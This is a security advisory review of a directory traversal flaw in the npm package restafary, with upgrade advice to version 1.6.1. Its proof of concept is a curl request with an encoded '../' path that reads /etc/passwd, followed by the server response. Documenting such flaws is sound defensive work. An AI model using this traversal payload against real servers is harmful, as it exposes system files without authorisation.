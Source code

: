 ```yaml
---
Publication-State: Active
Access: Public
Reviewers:
- Name: Craig Arendt
  Associated-With-Project: false
  Compensation-Source: external
Domain: Security
Methodology:
- Code-Review
Issues-Identified: Not-Examined
Package-URLs:
- pkg:npm/restafary
Review-Date: '2016-03-28'
Scope: Implementation/Full
Schema-Version: '1.0'
SPDX-License-Identifier: CC-BY-4.0
---
```

### Summary
*Directory Traversal*<br><br>Upgrade to restafary version 1.6.1 or greater.
### Details
- restafary is a REpresentful State Transfer API for Creating, Reading, Using, Deleting files on a server from the web - restafary is able to set up a root path, which should only allow it to run inside of that root path it specified.  - An attacker is able to provide a specifically crafted path to access files outside of this specified root path.     - Note: this is only possible if the attacker has access to the restafary application.  Proof of Concept  ``` curl -i -s -k  -X 'GET' -H 'Authorization: Basic YWRtaW46cGFzc3dvcmQ=' 'http://localhost:8000/api/v1/fs/..%2f..%2fetc/passwd'   HTTP/1.1 200 OK X-Powered-By: Express Access-Control-Allow-Origin: * Content-Type: text/plain; charset=UTF-8 Vary: Accept-Encoding Accept-Ranges: bytes Last-Modified: Sun Jul 12 2015 22:38:08 GMT-0700 (PDT) Content-Length: 5581 Cache-Control: max-age=0 Date: Fri, 25 Mar 2016 17:30:29 GMT Connection: keep-alive  ## # User Database #  # Note that this file is consulted directly only when the system is running # in single-user mode.  At other times this information is provided by # Open Directory. # # See the opendirectoryd(8) man page for additional information about # Open Directory. ## nobody:*:-2:-2:Unprivileged User:/var/empty:/usr/bin/false root:*:0:0:System Administrator:/var/root:/bin/sh ```
<br><br>• Affected Versions: <1.6.1
<br>• Patched Versions: >=1.6.1
### Methodology
This review was taken directly from the Security Advisories section of npm's official website.
### External References
None
### Disclaimer
All security reviews are conducted on a "best-effort" basis against a software component at a point in time. We make no guarantee as to the quality or completeness of any review. If you believe any content is inaccurate, we encourage you to open an issue or submit a pull request with a correction or improvement.
### License
This text is released under at least the [Creative Commons Attribution 4.0 (CC-BY-4.0) license](https://creativecommons.org/licenses/by/4.0/legalcode.txt). Externally-referenced content may be licensed differently.
